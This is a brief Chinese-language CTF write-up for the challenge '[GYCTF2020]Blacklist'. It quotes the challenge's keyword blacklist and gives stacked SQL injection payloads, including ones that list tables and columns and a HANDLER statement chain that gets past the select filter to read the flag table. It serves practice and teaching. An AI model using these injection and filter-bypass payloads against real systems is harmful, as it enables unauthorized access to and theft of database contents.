



# [GYCTF2020]Blacklist

##  考点

- 堆叠注入

## 解题

`return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);`

过滤了这些关键字

1';show tables;#    查表

1';show columns from `FlagHere`;#

禁用了select我们可以使用Handler语句

[handle语句](https://blog.csdn.net/weixin_28723171/article/details/113428756?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522164421282516780357299482%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=164421282516780357299482&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-113428756.pc_search_result_cache&utm_term=sql%E4%B8%ADhandler&spm=1018.2226.3001.4187)

HANDLER … OPEN语句打开一个表，使其可以使用后续HANDLER … READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER … CLOSE或会话终止之前不会关闭

1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#

